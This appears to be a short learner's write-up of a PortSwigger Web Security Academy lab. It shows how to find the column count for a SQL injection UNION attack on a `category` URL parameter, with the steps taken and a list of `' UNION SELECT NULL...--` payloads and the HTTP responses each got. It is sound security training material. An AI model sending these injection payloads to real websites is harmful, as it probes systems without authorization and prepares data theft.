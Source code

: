 # SQL Injection – Determining the Number of Columns with UNION

**Lab:** PortSwigger Web Security Academy  
**Topic:** SQL Injection UNION attack – identifying the correct number of columns  

---

## Steps Taken

1. **Identified Injection Point**  
   - The vulnerable parameter was the `category` filter in  
     ```
     /filter?category=Food+%26+Drink
     ```

2. **Tested for Injection**  
   - Added a single quote `'` to the parameter → received an error.  
   - Confirmed that the input was being interpreted by the SQL query.

3. **Attempted UNION SELECT**  
   - Tried appending `UNION SELECT NULL` but got server errors (HTTP 500).  
   - Continued incrementing the number of `NULL` values.

4. **Found Working Payload**  
   - At `UNION SELECT NULL,NULL,NULL` → got a **200 OK** response.  
   - This indicated the query returned **3 columns**.

---

## Payloads Tested
```sql
' UNION SELECT NULL--      → 500
' UNION SELECT NULL,NULL-- → 500
' UNION SELECT NULL,NULL,NULL-- → 200 ✅
